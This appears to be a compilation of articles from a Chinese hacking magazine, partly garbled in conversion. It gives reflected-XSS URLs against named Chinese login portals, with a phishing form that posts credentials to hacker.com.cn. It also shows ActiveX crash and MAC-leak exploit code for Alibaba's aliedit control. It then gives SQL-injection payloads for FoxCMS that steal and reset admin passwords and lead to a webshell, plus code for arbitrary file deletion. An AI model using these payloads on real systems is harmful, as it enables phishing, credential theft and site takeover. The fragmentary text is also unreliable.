

图1

在大部分站点的登录系统为了方便用户，采取将输错的用户名返回通知用户的方式，但却没有对通知信息进行过滤，导致跨站攻击的产生。简单来说就是……

### 首发漏洞 / FIRST EXPLOIT



图3

```html
</td></tr></table></FORM><FORM action=http://www.hacker.com.cn/userandpass.asp method=post name=form>
<TABLE cellSpacing=0 cellPadding=0 width=212 border=0 align=center>
<tr><td class=p2 align=right height=30 width=90><FONT color=065EC8>用户名</FONT></td>
<td><INPUT name=username value="" size=15 maxLength=18 class=sbbox></td></tr>
<tr><td><input name=noting type=hidden value='&password'
```

```html
<!-- 构造页面代码片段 -->
<TABLE cellSpacing=0 cellPadding=0 width=212 border=0 align=center>
<tr><td class=p2 align=right ...>用户名</td>
<td><INPUT name=username value='...'></td></tr>
...
```

图5

会直接发送到我们构造的页面，然后我们再在自己构造的页面上把页面转向回来，这样用户会以为是由于自己输入了错误密码而不会引起任何嫌疑。由于危险性比较大，这里我就不提供具体的实施代码了，有兴趣的朋友可以查阅2006年12期黑防杂志上我的文章《Ajax Hacking with XSS》。

以上代码如果转换成 `http://passport.baidu.com/?login&username=%0D%0A%22%3E%3Cscript%3Ealert%28/xss/%29%3C/script%3E%3C&password` 就会更有迷惑性，因为通常在百度里，Passport的转向代码都是形如 `http://passport.baidu.com/?login&tpl=sp&tpl_reg=sp&u=http://hi.baidu.com/monyer` 这样的。

## 网易通行证XSS

如果说百度Passport由于替换了引号导致在构造XSS代码时有些困难，那么网易的通行证算是为我们想得相当周到了——什么过滤措施都没有！首先在通行证处随便填入用户名和密码，看看是否有返回用户名，结果发现我们输入的内容被原封不动地返回过来了。而如果构造 `https://reg.163.com/logins.jsp?username="/><script>alert('xss')</script><&password`，依然会顺利执行，如图4所示。

这样我们可以简单构造如下代码，如图5所示。

不过这段代码还不够好，一是没有进行Encode编码，二是会多显示一个用户名。但即使这样，依然具有极强的迷惑性，不是吗？这就是我所要说的，不用JS进行攻击，当然如果用JS实现，那么效果就会更好了，如图6所示。



图6



图4

```text
https://reg.163.com/logins.jsp?username=" type=hidden />
```

## 其他网站XSS

接下来我们看看其他的网站又如何呢？我们先来看看能和钱挂上钩的淘宝网。在HTML中获取会员名及密码的表单name后，构造如下的URL：`http://member1.taobao.com/member/login.jhtml?TPL_username='><script>alert('xss')</script><&password`，如图7所示。怎么样？害怕了吧？它的返回比网易还简单，构造一个虚假的页面显然没有问题，而且其中并没有任何跨域的问题，用这种方式钓鱼，估计上钩率会达到80%以上。接下来是我们可爱的QQ，想找到Input XSS同样不是难题。构造如下的URL依然可以达到跨站的目的：

`http://appastro.qq.com/cgi-bin/astro_card?id=zh&year=2006&month=12&day=09<script>alert('xss')</script>`，结果如图8所示。同样的漏洞也出现在最近漏洞百出的PHPWind系统上，如图9所示是对其官方站点的测试。

还有另外一些网站也存在同样的漏洞，就不在此一一介绍了。至于如何将上面提到的URL进行编码，大家可以把下面的代码写成HTML文件来进行Encode转换。



```html
<html><head><script>
function doit(f){
  var o=document.getElementById('txt');
  f(o).innerText=f(o).innerText;
}
</script></head>
<body>
<textarea id="txt" cols="100" rows="35"></textarea><br/>
<input type="button" value="escape" onclick="doit(escape)">
<input type="button" value="unescape" onclick="doit(unescape)">
</body></html>
```

在这次的测试中，我们也对微软和Google的登录系统进行了检测，几乎所有的国外登录系统都没有这个问题，它们都会把`<>`之类的危险标签转换为`&lt;&gt;`。而这次的跨站漏洞没有调用任何页面，也没有对网站添加任何数据，只对登录页面进行了伪造，所以后果还是相当严重的。好了，文章就到这里了，祝大家根据上面的介绍，能玩出新花样来！

- 适合读者：漏洞爱好者  
- 前置知识：无  

## 揭密阿里巴巴支付控件多个安全漏洞

文/图 爱无言



也许大家在以前听说过，阿里巴巴旗下的支付“阿里旺旺”，装上后用了几次，闲来无事下对阿里巴巴的这些软件做了一个肤浅的分析，发现阿里巴巴在开发软件时候的问题很多，这可以从它的这些软件的安装以及界面上反应。很多用户反映软件安装时还要关杀毒软件，甚至有时会出现加载失败导致重装系统。为了更加清楚阿里巴巴的一些软件安全问题，本文进行了相关测试与说明。

支付宝有几个非常严重的安全隐患，可以远程利用攻击用户主机获得控制权限。阿里巴巴对此事的反应暂且按下不说，现在这几个严重的安全漏洞已经被修补了，或许这样就太平了。最近，由于本人在业务上的需要，安装了一个也属于阿里巴巴旗下的软件，并对其安装过程和行为进行了进一步观察与分析。

编写流程，我逆向了其中几个，在这期间发现很多问题，甚至是严重的安全漏洞，这里现将阿里巴巴支付控件“aliedit”中分析出的安全隐患公布给大家，其他的将在适合的时候公布，请大家留意杂志文章。

从查询的一些资料来看，这个名为“aliedit”的控件确实属于阿里巴巴的作品，并且一开始的时候我就推断它是用于网上账户的。在查询后发现，这个控件果然被阿里巴巴用于网上交易，也就是像“支付宝”这样的形式上。很多时候支付宝使用不了，就是因为这个控件没有被正确加载导致。因为我不曾对阿里巴巴以前的那个支付宝漏洞注意过，因此请大家别笑话我上述对“aliedit”作用的推断过程。回到正题上，这个控件本身是用UPX加壳的，非常容易脱壳，在脱去这个简单的壳后，我把“aliedit”控件甩进了IDA里面，因为IDA的自动分析能力很强，这会替我们省去很多时间。顺便说一下，“aliedit”这个控件主体的位置，它一般被安装于系统system32文件夹下的aliedit文件夹，名叫“aliedit.dll”。

“aliedit”控件是使用VC++ 6.0编写的，这种程序在我的感觉中，如果没有很好地处理，往往会出现一些缓冲区溢出之类的漏洞，或许程序能弥补这种类型的漏洞，但是也许弥补的方式不对，反而只是将溢出漏洞变成了拒绝服务漏洞。抱着一些怀疑，我开始了对“aliedit”的分析工作，这里省去几千字，以免大家以为在看小说，我就直接给出分析结果。该控件在处理长字符串时，为了避免溢出，在关键函数如strlen函数后，使用了一个递减的方式进行栈分配，但是该分配函数编写不完善，导致在程序处理过长字符串时会出现访问非法地址的错误，这将导致程序异常，致使拒绝服务。具体代码分析如下。

```text
sub ecx, 1000h
.text:10011632  sub eax, 1000h
.text:10011637  test [ecx], eax
```

上面的代码非常简单，它就是完成栈分配地址的循环递减，每次按照减少1000h的大小，并且做一个比较判断，还原成伪C语言代码就是：

```c
do {
    addressP = addressP - 1000h;
    a = a - 1000h;
    if [addressP] == a { }
} while (a > 1000h);
```

其中这里的addressP就是我们的ecx寄存器，a就是eax。可以看出来这段代码的意思就是不断按照1000h的大小来移动ecx，也就是开辟栈空间，但是问题出在这个程序每次都是按照字符串长度的两倍+2的长度来进行分配，这本不是问题。可是一旦执行“test [ecx],eax”这段指令，我把它认为是一个判断内存可读性的操作时，如果ecx指向的地址不能读，程序在这时候没有做容错处理，就会发生异常，那么最直接的后果就是浏览器也跟着崩溃了，如图1所示。



图1

利用代码其实非常简单，我们只要知道这个控件在哪一个com接口函数上有字符串参数就行，因为我发现只要跟字符串打交道的地方，aliedit都会调用上面那个出错的分配函数。最后我定格在一个导出函数“Crypto”上，这个函数的第三个参数是一个字符串变量，这里直接给出利用代码：

```html
<SCRIPT language=javascript>
function test(){
  var a = "aaaaaaaaaaaaa*5000";
  // 超长的字符串值
  aiwuyan.Crypto(1,2,a);
}
</script>
<object classid="clsid:488A4255-3236-44B3-8F27-FA1AECAA8844" name="aiwuyan">
</object>
<script>javascript:test();</script>
```

将上述代码保存为网页，然后放到服务器上，用IE或者遨游浏览器试着访问，就会出现浏览器崩溃的现象，这证明我们的猜测是正确的。

分析完上面的漏洞，我们再接再厉，因为下面要说的这个漏洞要比上面的拒绝服务漏洞更有意思。之所以说有意思，是因为第二个是一个用户信息泄漏漏洞，这个漏洞可以让他人远程获取你电脑的物理网卡地址，即MAC地址。这个漏洞本身的危害并不大，只是吸引我的是，aliedit在这里使用了加密手段，因此我深入分析了这个支付控件在对待用户信息上的加密方式，这些留着以后说，我们先来看看这个有意思的用户信息泄漏漏洞。

出现问题的是aliedit控件的一个属性，名叫“MACAddress”，看到这么明显的名字，理所当然地就把它直接放到网页测试了，试图能直接看到我的网卡地址，没想到出现了一个莫名其妙的字符串，如图2所示。

这个肯定不是我的物理网卡地址。盯着这个字符串，突然想到了会不会是加密后的网卡地址。因为这串字符前面的“XOR”太令人怀疑了，它暗示了这个字符串使用了加密算法，不然怎么会这么唐突地出现呢？连忙打开 IDA，找到这个字符串出现的地方，看来我们猜对了，这确实是一个算法的标识，如图3所示。

看到那些“DES”“SHIFT”标识了吗？熟悉加密算法的朋友一定知道这些常用算法。虽然对于异或、偏移这样的算法，每个程序的具体实现都不一样，但这确实证明了 aliedit 使用了其中某个算法来加密敏感信息，这里的物理网卡地址就是其中一个被加密的信息，使用的算法就是异或算法。

作者进一步说明：程序按位对网卡地址进行异或，使用一个公共子串逐位运算，因此最终得到的加密字符串长度与输入位数相关。结合样本中 `XOR_1_...` 的结构，可判断其中一段为固定长度的异或结果。通过尝试不同输入并匹配输出，可以反推出网卡原始值。

并且我们要算多少个值才够。对于第二个问题很简单，我们的网卡地址每一位最多是等于“F”，所以我们只需要算 0~F，也就是十进制的 0~15 即可。对于第一个问题，我们确实不知道算法的实现过程，但是我们可以给这个算法传递参数，并且获得返回值。

Aliedit 很替我们考虑，它提供了这样的接口函数，那就是出现拒绝服务的那个函数“Crypto”，这个函数的原型是：

```c
BSTR Crypto(
  [in] VARIANT_BOOL bEncrypt,
  [in] unsigned long nIndex,
  [in] BSTR pInout
);
```

根据字面意思，第一个参数为是否使用加密；第二个参数用于选择算法（文中分析最大值为 4，且 0 为不加密）；最后一个参数是要被加密的字符串。于是设置第一个参数为 1，第二个参数为 2（xor），第三个参数传入测试值，即可得到加密结果。文中还强调测试值应采用固定格式（如 12 个相同字符），因为其异或过程与位置信息有关。

上面的是解密程序。那么利用代码是什么呢？很简单，只要修改拒绝服务漏洞利用代码，把其中 `aiwuyan.Crypto(1,2,a)` 换成 `alert(aiwuyan.MACAddress);` 就可以了。再进一步完善后，可远程取到别人的网卡地址加密值，再放入解密程序中，获得对方真实网卡地址。

文末总结认为，这两个漏洞从不同角度体现了安全问题：一是程序本身鲁棒性与可靠性，二是程序实际应用带来的负面影响。对用户而言，安全最重要。以上仅代表作者个人观点，并希望读者指正。

适合读者：入侵爱好者  
前置知识：ASP

## 深入剖析挖掘

## MiniODay

文/图 “ffwt”

这段时间太忙了，差点连写稿的时间都没有了，好不容易又考完了一科，有了点点时间，于是研究了一下风讯的代码。

风讯网站管理系统，相信很多朋友都使用过。现在风讯的最新版本是 v4.0sp2，在代码测试中，我发现其后台做得非常不错，如果不存在下面的漏洞，就应该说比较完美了。下面我们就一起去分析风讯的三大漏洞：跨站、注入和建立、删除任意目录、任意文件。

达到了跨站的目的，如图1所示。

至于此漏洞的扩展运用，我这里就不再举例说明了，相信大家都知道该怎么做了。

## 跨站漏洞

存在漏洞的文件是 `Click.asp`，其第 29~42 行的代码如下。

```asp
stype = request.QueryString("type")
SubSys = request.QueryString("SubSys")
spanid = request.QueryString("spanid")

if stype="" then stype="ajax"
if stype<>"ajax" then call HTMLEnd("Error:type not is ajax!", "http://"&Cookie_Domain)
if SubSys="" then call HTMLEnd("Error:SubSys is null!", "http://"&Cookie_Domain)
if spanid="" then call HTMLEnd("Error:spanid is null!", "http://"&Cookie_Domain)
TmpArr = split(spanid, ",")
if ubound(TmpArr)<>3 then call HTMLEnd("Error:spanid is Err!", "http://"&Cookie_Domain)

Sub HTMLEnd(Info,URL)
  response.Write("$('"&spanid&"').innerHTML='"&Info&"';")
  response.End()
End Sub
```

从上面的代码，我们可以看出，由于 spanid 没有经过任何安全检查，所以我们可以构造语句：`click.asp?spanid=<script>alert("xss")</script>`，如此就……

#### 防注系统绕过漏洞

##### 注入点一：FS_Inc/Function.asp 文件

我们先看看防注系统的部分代码，此漏洞存在于文件 `FS_Inc/Function.asp` 中，其第 114~128 行代码如下。

```asp
Function NoSqlHack(FS_inputStr)
  Dim f_NoSqlHack_AllStr, f_NoSqlHack_Str, f_NoSqlHack_i, Str_InputStr
  Str_InputStr = FS_inputStr
  f_NoSqlHack_AllStr = "|and|exec|insert|select|delete|update|count|master|truncate|declare|char|mid|chr|'|""|"
  f_NoSqlHack_Str = Split(f_NoSqlHack_AllStr, "|")
  For f_NoSqlHack_i = LBound(f_NoSqlHack_Str) To UBound(f_NoSqlHack_Str)
    If InStr(LCase(Str_InputStr), f_NoSqlHack_Str(f_NoSqlHack_i)) <> 0 Then
      ...
    End If
  Next
End Function
```

```asp
Then f_NoSqlHack_Str=E_NoSqlHack(i)
' 将分号转换为等
Response.Write "<html><title>警告</title><body ...>"
...
NoSqlHack = Replace(Str, InputStr, "''")
' 把单引号替换为双引号
End Function
```

由于上面的语句过滤不严，导致我们可以绕过防注系统。如果我们提交的语句中不含单引号以及 and、update、select 等和其后面包含的空格字符，那么我们就可以注入了。

接下来查找调用了 `NoSqlHack()` 函数且没有经过数字判断的数字型变量，我们可以找到文件 `Ads/pic.asp`，其第 7～31 行的代码如下。

```asp
<%
response.buffer=true
Response.CacheControl="no-cache"
...
pic1=NoSqlHack(request.QueryString("pic"))
' 虽然只经过了函数 NoSqlHack() 处理，没有进行 int 判断，所以出现漏洞
picSql="select * from FS_AD_Info where AdID='"&pic1&"'"
...
Response.Write "参数传递错误!!!"&Err.description
Response.End()
%>
```

本来这个地方完全可以被利用的，但是由于代码本身的 Bug，导致我们利用不了，如图2所示。

由于此文件不能利用，只得再找其它文件。再次查找，来到文件 `User/review.asp`，其第 8～24 行的代码如下。

```asp
<%
if Trim(Request.QueryString("Url"))<>"" then
  response.Write request.QueryString("Url")&"-"&request.QueryString("type")
  response.end
end if
if request("Action")="del" then
  if Request("id")="" then
    strShowErr="<li>错误的参数!</li>"
    Response.Redirect("lib/error.asp?ErrCodes="&Server.URLEncode(strShowErr)...)
    Response.end
  else
    User_Conn.execute("Delete from FS_ME_Review where ReviewID in ("&NoSqlHack(Request("id"))&")")
    strShowErr="<li>删除成功！</li>"
    Response.Redirect("lib/Success.asp?ErrCodes="&Server.URLEncode(strShowErr)...)
    Response.end
  end if
end if
%>
```

分析完上面的代码后，我们可以这样利用。先注册一个用户、登录，然后提交：

`User/review.asp?action=del&id=1);update[FS_ME_Users]set[selfintro]=(select[UserPassword]from[FS_ME_Users]where[userid]=1)--`

此语句用于把 USERID 为 1 的用户密码更新到所有用户的“自我介绍”之中，提交成功后如图3所示。

再提交：

`User/review.asp?action=del&id=1);update[FS_ME_Users]set[selfintro]=(select[Username]from[FS_ME_Users]where[userid]=1)--`

成功后可以得到其用户名，如图4所示。

这里作一下说明，我们提交上面语句的作用是得到一个 USERID 为 1 的用户（注：我们注册的 USERID 是无法从网站上获取的……）。

## 首次漏洞挖掘 / FIRST EXPLOIT

USERID，原因只有一个：因为只有它是唯一标识的，且为数字型。字符型内容无法直接利用，因为程序把单引号过滤成了两个单引号。为避免影响所有用户，需要一个 USERID 及其用户名和密码，使其只作用于该用户。

`User/review.asp?action=del&id=1);update[FS_ME_Users]set[selfintro]=(select(user)) where[userid]=1--`

`User/review.asp?action=del&id=1);update[FS_ME_Users]set[selfintro]=(select(db_name()))--`

`User/review.asp?action=del&id=1);update[FS_ME_Users]set[selfintro]=(select[admin_name]from[FS_MF_Admin]where[id]=1)where[userid]=1--`

`[FS_ME_Users]set[selfintro]=(select[admin_pass_word]from[FS_MF_Admin]where[id]=1)where[userid]=1--`

可以得到 ID 为 1 的管理员 MD5 密码。若要更改管理员密码，可提交 `update[FS_MF_admin] set[admin_pass_word]=(select[admin_name]from[FS_MF_Admin]where[id]=1) where[id]=1--`。同样可通过提交删除数据库、创建 CMD 表等语句进行进一步利用。

##### 注入点二：Vote/Vote_Ajax.asp

```asp
VisitIP = request.ServerVariables("HTTP_X_FORWARDED_FOR")
If VisitIP = "" then
  VisitIP = request.ServerVariables("REMOTE_ADDR")
End If
Set Vs.RS = Conn.Execute("Select top 1 VoteTime from FS_VS_Items_Result where TID='"&TID&"' and VoteIp='"&VisitIP&"' order by RID desc")
```

该文件存在注入漏洞，可通过伪造 `HTTP_X_FORWARDED_FOR` 变量进行利用。

此漏洞的构造语句为：`127.0.0.1'); update FS_MF_Admin set Admin_Pass_Word='49ba59abbe56e057' where id=2--`，提交成功后，ID 为 2 的管理员的密码就被我们改为了 123456 了。进入后台后，我们即可看到网站的物理路径了，如图7所示。

有了此路径，我们就可以通过 `Vote_Ajax.asp` 漏洞备份 WebShell 了，一切就是如此的轻松。

## 建立删除任意文件夹、删除任意文件、遍历目录漏洞

此漏洞的危害极大，请大家善加利用，千万不要用来搞破坏呀！存在漏洞的文件 `User/CommPages/FolderImageList.asp` 的主要代码如下。

```asp
Set FsoObj = Server.CreateObject(G_FS_FSO)
' 创建FSO对象
OType = Request("Type")
if OType <> "" then
    Dim Path,PhysicalPath
    if OType = "DelFolder" then
        ' 删除文件夹模块
        Path = Request("Path")
        if Path <> "" then
            Path = Server.MapPath(Path)
            if FsoObj.FolderExists(Path) = true then FsoObj.DeleteFolder Path
        end if
    elseif OType = "DelFile" then
        ' 删除文件模块
        Dim DelFileName
        Path = Request("Path")
        DelFileName = Request("FileName")
        if (DelFileName <> "") And (Path <> "") then
            Path = Server.MapPath(Path)
            if FsoObj.FileExists(Path & "\" & DelFileName) = true then FsoObj.DeleteFile Path & "\" & DelFileName
        end if
    elseif OType = "AddFolder" then
        ' 创建文件夹模块
        Path = Request("Path")
        if Path <> "" then
            Path = Server.MapPath(Path)
            if FsoObj.FolderExists(Path) = True then
